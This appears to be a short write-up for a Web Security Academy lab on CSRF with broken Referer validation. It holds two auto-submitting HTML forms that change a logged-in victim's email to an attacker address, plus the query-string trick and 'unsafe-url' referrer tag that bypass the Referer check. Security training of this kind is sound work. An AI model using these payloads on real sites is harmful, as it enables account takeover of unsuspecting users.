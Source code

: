 ```html
		<form action="https://0ae4004103c7d359808ccb2e00f40043.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="pwned@evil.net" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
# CSRF with broken Referer validation
1. Login > Change email
2. Host normal POST CSRF attack
3. Receive error stating "Invalid referer header"
4. Check the request in Burp > Send to repeater
5. Including the target site as a URL query parameter bypasses the referer validation check
6. Host the following malicious page which includes a tag to force the browser to include the query string on the `Referer` header
```html
<html>
<meta name="referrer" content="unsafe-url">
	<body>
		<form action="https://0a8c002a0402e86180e25dd400ce0093.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="owned@evil.net" />
		</form>
		<script>
			document.forms[0].submit();
		</script>
	<body>
</html>
```
7. To make sure the referer header is set in the request, change the location of the exploit to the valid server (URL encode the `?`)
```
/exploit?https://0a8c002a0402e86180e25dd400ce0093.web-security-academy.net
```
